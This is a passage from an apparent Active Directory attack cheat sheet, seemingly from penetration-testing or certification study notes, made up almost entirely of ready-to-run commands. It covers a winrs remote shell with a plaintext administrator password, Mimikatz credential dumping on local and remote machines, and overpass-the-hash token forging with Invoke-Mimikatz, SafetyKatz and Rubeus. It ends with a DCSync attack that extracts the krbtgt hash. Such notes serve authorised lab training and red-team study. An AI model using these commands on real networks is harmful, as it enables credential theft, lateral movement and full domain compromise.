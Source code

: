 ```powershell
C:\> winrs -remote:us-mgmt -u:us\administrator - p:Pass@1234 cmd.exe
```

# V. Dumping Credentials

### Lateral Movement [ `Invoke-Mimikatz`, `SafetyKatz`, `Rubeus.exe` ]

```powershell
# Dump credentials on a local machine
Invoke-Mimikatz -DumpCreds

# Dump credentials on multiple remote machines
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")
```

##### OverPass-The-Hash : generate tokens from hashes

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:abc.xyz.local /ntlm:<ntImhash> /run:powershell.exe"'

# Invoke-Mimikatz using AES
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'

# SafetyKatz
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"

# The above commands starts a PowerShell session with a logon type 9 (same as runas /netonly).

# Rubeus.exe
# Below doesn't need elevation
Rubeus.exe asktgt /user:administrator /rc4: /ptt

# Below command needs elevation
Rubeus.exe asktgt /user:administrator /aes256: /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

##### DCSync Attack

-   To extract credentials from the DC without code execution on it, we can use `DCSync`
-   To use the `DCSync` feature for getting `krbtgt` hash execute the below command with DA privileges for us domain
-   By default, Domain Admins privileges are required to run `DCSync`

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'

# SafetyKatz
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```
